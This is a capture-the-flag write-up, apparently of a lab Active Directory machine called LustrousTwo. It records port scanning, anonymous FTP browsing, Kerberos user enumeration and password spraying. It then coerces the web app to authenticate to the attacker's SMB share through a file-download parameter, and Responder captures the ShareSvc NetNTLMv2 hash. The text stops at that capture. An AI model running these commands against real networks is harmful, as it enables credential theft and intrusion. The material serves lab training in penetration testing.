








# LustrousTwo
## Host file setup
```python
sudo nxc smb 10.129.242.166 --generate-hosts-file /etc/hosts               
[sudo] password for kali: 
SMB         10.129.242.166  445    LUS2DC           [*]  x64 (name:LUS2DC) (domain:Lustrous2.vl) (signing:True) (SMBv1:None) (NTLM:False)
```

NTLM auth is disabled, which means ill have to work with kerberos

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT lus2dc.lustrous2.vl                                              
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 16:15 +0100
Nmap scan report for lus2dc.lustrous2.vl (10.129.242.166)
Host is up (0.013s latency).
rDNS record for 10.129.242.166: LUS2DC.Lustrous2.vl
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49779/tcp open  unknown
60285/tcp open  unknown
60287/tcp open  unknown
60304/tcp open  unknown
61989/tcp open  unknown
61990/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.29 seconds
```

### Nmap
```python
nmap -p 21,53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985 -A --min-rate=2000 -sT lus2dc.lustrous2.vl
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-12 16:18 +0100
Nmap scan report for lus2dc.lustrous2.vl (10.129.242.166)
Host is up (0.013s latency).
rDNS record for 10.129.242.166: LUS2DC.Lustrous2.vl

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 09-06-24  05:20AM       <DIR>          Development
| 04-14-25  04:44AM       <DIR>          Homes
| 08-31-24  01:57AM       <DIR>          HR
| 08-31-24  01:57AM       <DIR>          IT
| 04-14-25  04:44AM       <DIR>          ITSEC
| 08-31-24  01:58AM       <DIR>          Production
|_08-31-24  01:58AM       <DIR>          SEC
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Negotiate
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-12 15:18:16Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-09-29T14:23:23
|_Not valid after:  2026-09-29T14:23:23
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-09-29T14:23:23
|_Not valid after:  2026-09-29T14:23:23
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-09-29T14:23:23
|_Not valid after:  2026-09-29T14:23:23
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: Lustrous2.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:LUS2DC.Lustrous2.vl
| Not valid before: 2025-09-29T14:23:23
|_Not valid after:  2026-09-29T14:23:23
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-08-12T15:19:39+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=LUS2DC.Lustrous2.vl
| Not valid before: 2026-08-11T15:12:47
|_Not valid after:  2027-02-10T15:12:47
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: LUS2DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP (21)

```python
ftp> cd ../ITSEC
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||50755|)
150 Opening ASCII mode data connection.
09-07-24  03:50AM                  207 audit_draft.txt
226 Transfer complete.
ftp> get audit_draft.txt
local: audit_draft.txt remote: audit_draft.txt
229 Entering Extended Passive Mode (|||50757|)
125 Data connection already open; Transfer starting.
100% |*************************************************************************************************************************************************************|   207       15.42 KiB/s    00:00 ETA
226 Transfer complete.
207 bytes received in 00:00 (15.29 KiB/s)
```

Anonymous login is allowed, ill download any interesting files i find

```python
cat htb/LustrousTwo/audit_draft.txt 
Audit Report Issue Tracking

[Fixed] NTLM Authentication Allowed
[Fixed] Signing & Channel Binding Not Enabled
[Fixed] Kerberoastable Accounts
[Fixed] SeImpersonate Enabled

[Open] Weak User Passwords 
```

There may still be some weak user passwords here

```python
ftp> cd ../Homes
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||50763|)
125 Data connection already open; Transfer starting.
09-07-24  12:03AM       <DIR>          Aaron.Norman
09-07-24  12:03AM       <DIR>          Adam.Barnes
09-07-24  12:03AM       <DIR>          Amber.Ward
09-07-24  12:03AM       <DIR>          Andrea.Smith
09-07-24  12:03AM       <DIR>          Ann.Lynch
09-07-24  12:03AM       <DIR>          Callum.Oliver
09-07-24  12:03AM       <DIR>          Carly.Walker
09-07-24  12:03AM       <DIR>          Chelsea.Smith
09-07-24  12:03AM       <DIR>          Chloe.Hammond
09-07-24  12:03AM       <DIR>          Christopher.Lawson
09-07-24  12:03AM       <DIR>          Claire.Parry
09-07-24  12:03AM       <DIR>          Darren.Lewis
09-07-24  12:03AM       <DIR>          Deborah.Jones
09-07-24  12:03AM       <DIR>          Dominic.West
09-07-24  12:03AM       <DIR>          Duncan.Smith
09-07-24  12:03AM       <DIR>          Elaine.Gallagher
09-07-24  12:03AM       <DIR>          Eleanor.Gregory
09-07-24  12:03AM       <DIR>          Emma.Bell
09-07-24  12:03AM       <DIR>          Francesca.Norman
09-07-24  12:03AM       <DIR>          Gary.Richards
09-07-24  12:03AM       <DIR>          Gerard.Ward
09-07-24  12:03AM       <DIR>          Glenn.Williams
09-07-24  12:03AM       <DIR>          Graeme.Pritchard
09-07-24  12:03AM       <DIR>          Harriet.Richardson
09-07-24  12:03AM       <DIR>          Henry.Connor
09-07-24  12:03AM       <DIR>          Howard.Robinson
09-07-24  12:03AM       <DIR>          Jacqueline.Phillips
09-07-24  12:03AM       <DIR>          Janice.Collier
09-07-24  12:03AM       <DIR>          Jasmine.Johnson
09-07-24  12:03AM       <DIR>          Joan.Wall
09-07-24  12:03AM       <DIR>          Judith.Francis
09-07-24  12:03AM       <DIR>          Justin.Williams
09-07-24  12:03AM       <DIR>          Kyle.Hussain
09-07-24  12:03AM       <DIR>          Kyle.Lloyd
09-07-24  12:03AM       <DIR>          Lawrence.Bryan
09-07-24  12:03AM       <DIR>          Leah.Elliott
09-07-24  12:03AM       <DIR>          Lewis.Khan
09-07-24  12:03AM       <DIR>          Liam.Wheeler
09-07-24  12:03AM       <DIR>          Lisa.Begum
09-07-24  12:03AM       <DIR>          Louis.Phillips
09-07-24  12:03AM       <DIR>          Lydia.Parker
09-07-24  12:03AM       <DIR>          Malcolm.Yates
09-07-24  12:03AM       <DIR>          Marie.Hill
09-07-24  12:03AM       <DIR>          Martin.Hamilton
09-07-24  12:03AM       <DIR>          Mathew.Roberts
09-07-24  12:03AM       <DIR>          Melissa.Thompson
09-07-24  12:03AM       <DIR>          Nathan.Carter
09-07-24  12:03AM       <DIR>          Nicola.Clarke
09-07-24  12:03AM       <DIR>          Nicola.Hall
09-07-24  12:03AM       <DIR>          Nigel.Lee
09-07-24  12:03AM       <DIR>          Pamela.Taylor
09-07-24  12:03AM       <DIR>          Robert.Russell
09-07-24  12:03AM       <DIR>          Ryan.Davies
09-07-24  12:03AM       <DIR>          Ryan.Moore
09-07-24  12:03AM       <DIR>          Ryan.Rowe
09-07-24  12:03AM       <DIR>          Samantha.Smith
09-07-24  12:03AM       <DIR>          Sara.Matthews
09-07-24  12:03AM       <DIR>          ShareSvc
09-07-24  12:03AM       <DIR>          Sharon.Birch
09-07-24  12:03AM       <DIR>          Sharon.Evans
09-07-24  12:03AM       <DIR>          Stacey.Barber
09-07-24  12:03AM       <DIR>          Stacey.Griffiths
09-07-24  12:03AM       <DIR>          Stephanie.Baxter
09-07-24  12:03AM       <DIR>          Stephanie.Davies
09-07-24  12:03AM       <DIR>          Steven.Sutton
09-07-24  12:03AM       <DIR>          Susan.Johnson
09-07-24  12:03AM       <DIR>          Terence.Jordan
09-07-24  12:03AM       <DIR>          Thomas.Myers
09-07-24  12:03AM       <DIR>          Tony.Davies
09-07-24  12:03AM       <DIR>          Victoria.Williams
09-07-24  12:03AM       <DIR>          Wayne.Taylor
226 Transfer complete.
ftp>
```

Also found a long list of names, they look like users due to the `sharesvc` account

So my plan is to put these users into a userlist, then use kerbrute and see which ones are valid

### Finding valid users

```python
kerbrute userenum --dc lus2dc.lustrous2.vl -d lustrous2.vl users.txt -v

...[SNIP]...

2026/08/12 16:51:52 >  [+] VALID USERNAME:	ann.lynch@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	amber.ward@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	callum.oliver@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	andrea.smith@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	adam.barnes@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	chelsea.smith@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	christopher.lawson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	aaron.norman@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	chloe.hammond@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	carly.walker@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	darren.lewis@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	duncan.smith@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	elaine.gallagher@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	deborah.jones@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	claire.parry@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	francesca.norman@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	dominic.west@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	gary.richards@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	eleanor.gregory@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	emma.bell@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	henry.connor@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	harriet.richardson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	glenn.williams@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	jacqueline.phillips@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	gerard.ward@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	howard.robinson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	graeme.pritchard@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	jasmine.johnson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	janice.collier@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	joan.wall@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	judith.francis@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	lawrence.bryan@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	liam.wheeler@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	kyle.lloyd@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	kyle.hussain@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	justin.williams@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	louis.phillips@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	lisa.begum@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	lewis.khan@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	leah.elliott@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	lydia.parker@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	malcolm.yates@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	martin.hamilton@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	mathew.roberts@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	marie.hill@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	melissa.thompson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	nigel.lee@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	nicola.hall@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	nathan.carter@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	nicola.clarke@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	robert.russell@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	ryan.davies@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	pamela.taylor@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	ryan.moore@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	ryan.rowe@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	sharon.birch@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	sharesvc@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	sara.matthews@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	samantha.smith@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	sharon.evans@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	stacey.griffiths@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	stephanie.baxter@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	stephanie.davies@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	stacey.barber@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	susan.johnson@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	steven.sutton@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	terence.jordan@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	victoria.williams@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	thomas.myers@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	tony.davies@lustrous2.vl
2026/08/12 16:51:52 >  [+] VALID USERNAME:	wayne.taylor@lustrous2.vl
2026/08/12 16:51:52 >  Done! Tested 71 usernames (71 valid) in 0.111 seconds
```

So looks like they are all valid.

## Weak password leads to user compromise

Going off the hint of weak passwords ill try ones relating to this box and maybe a year

```python
nxc smb lus2dc.lustrous2.vl -u users.txt -p 'Lustrous2024' -k --continue-on-success

...[SNIP]...

SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] lustrous2.vl\thomas.myers:Lustrous2024
```

After trying several different combinations, i get a valid logon!

## Enumeration of `thomas.myers`

```python
nxc smb lus2dc.lustrous2.vl -u thomas.myers -p 'Lustrous2024' -k --shares                                     
SMB         lus2dc.lustrous2.vl 445    lus2dc           [*]  x64 (name:lus2dc) (domain:lustrous2.vl) (signing:True) (SMBv1:None) (NTLM:False)
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] lustrous2.vl\thomas.myers:Lustrous2024 
SMB         lus2dc.lustrous2.vl 445    lus2dc           [*] Enumerated shares
SMB         lus2dc.lustrous2.vl 445    lus2dc           Share           Permissions     Remark
SMB         lus2dc.lustrous2.vl 445    lus2dc           -----           -----------     ------
SMB         lus2dc.lustrous2.vl 445    lus2dc           ADMIN$                          Remote Admin
SMB         lus2dc.lustrous2.vl 445    lus2dc           C$                              Default share
SMB         lus2dc.lustrous2.vl 445    lus2dc           IPC$            READ            Remote IPC
SMB         lus2dc.lustrous2.vl 445    lus2dc           NETLOGON        READ            Logon server share 
SMB         lus2dc.lustrous2.vl 445    lus2dc           SYSVOL          READ            Logon server share
```

Just read permissions on default shares

There is a kerberoastable account, but the hashing algorithm is AES256 which means its likely not going to crack!

## Access to the web service

So my thinking is the web site is throwing a 401 error since its using kerberos to authenticate

So if i generate a ticket and export it, i should then be able to authenticate

```python
nxc smb lus2dc.lustrous2.vl -u thomas.myers -p 'Lustrous2024' -k --generate-tgt thomasmyers
SMB         lus2dc.lustrous2.vl 445    lus2dc           [*]  x64 (name:lus2dc) (domain:lustrous2.vl) (signing:True) (SMBv1:None) (NTLM:False)
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] lustrous2.vl\thomas.myers:Lustrous2024 
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] TGT saved to: thomasmyers.ccache
SMB         lus2dc.lustrous2.vl 445    lus2dc           [+] Run the following command to use the TGT: export KRB5CCNAME=thomasmyers.ccache
```

First ill get the TGT

```python
export KRB5CCNAME=thomasmyers.ccache
```

Then ill export it, ill also do the same thing with the krb5 file

```python
curl -I --negotiate -u : http://lus2dc.lustrous2.vl/ 
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate oYG3MIG0oAMKAQChCwYJKoZIhvcSAQICooGfBIGcYIGZBgkqhkiG9xIBAgICAG+BiTCBhqADAgEFoQMCAQ+iejB4oAMCARKicQRvYkPr8VB0hmeHdhL1ATvqllbHjfCDWL++aPHjK5j9Y/oqzfXiTbYPr9AXe5n1ogqapvf9nt3RnjCLw8xZQGOTDGmIf2/viDkRKEACDDk8dFbK8W0oA8h5vyyVMLYrHiAmWCcvWViu0r2eI+XmLNLQ
Persistent-Auth: true
X-Powered-By: ASP.NET
Date: Wed, 12 Aug 2026 16:57:17 GMT
```

`-I`  will send a HEAD request to see if the connection is successful
`--negotiate`  will tell it to use the kerberos ticket
`-u` will set null credentials, since im using a kerberos ticket

This did fail several times so after some research i find i need to add a line to my `krb5.conf` file

```python
[libdefaults]  
    dns_canonicalize_hostname = false
```



Ill also open `about:config` in firefox and set these settings

Then ill close firefox and re open it

But this still fails, so more research........

```python
[libdefaults] 
	default_ccache_name = FILE:/home/kali/htb/LustrousTwo/thomasmyers.ccache
```

So after more research i find that the problem lies with firefox not being able to find the ccache file to authenticate, so if i specify the explicit path in the `/etc/krb5.conf` file then it should work

This would make sense, since i am able to curl it just fine, this makes it clear the problem lies with firefox



I now have access to the website..... FINALLY

So after looking at the site the download button downloads the file, but this file is the same one found in FTP earlier

```python
http://lus2dc.lustrous2.vl/File/Download?fileName=audit.txt
```

There could be some form of file read here, or even RFI

## Capturing NetNTLMv2 hash

So my first instinct is to start responder then direct the server to my share

```python
sudo responder -I tun0
```

So ill start responder

```python
curl -I --negotiate -u : 'http://lus2dc.lustrous2.vl/File/Download?fileName=\\10.10.14.61\share'
HTTP/1.1 404 Not Found
Transfer-Encoding: chunked
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate oYG3MIG0oAMKAQChCwYJKoZIhvcSAQICooGfBIGcYIGZBgkqhkiG9xIBAgICAG+BiTCBhqADAgEFoQMCAQ+iejB4oAMCARKicQRv/JVJxP4AfkVS8WF1QEYVyIOpS8anDQjuhQbm5HI2fbogHvVVjWFHDRrplNMTJUtT99XV1ncBlnxY62t9EinzW7QggnEFaQ8nZ/udCVNyfhBxw8u/EtgGpjm1Ahg91I7FzruECQZNO/hBDvdr/PQ+
Persistent-Auth: true
X-Powered-By: ASP.NET
Date: Wed, 12 Aug 2026 17:58:02 GMT
```

Ill send the request to point back to my server

```python
[SMB] NTLMv2-SSP Client   : 10.129.242.166
[SMB] NTLMv2-SSP Username : LUSTROUS2\ShareSvc
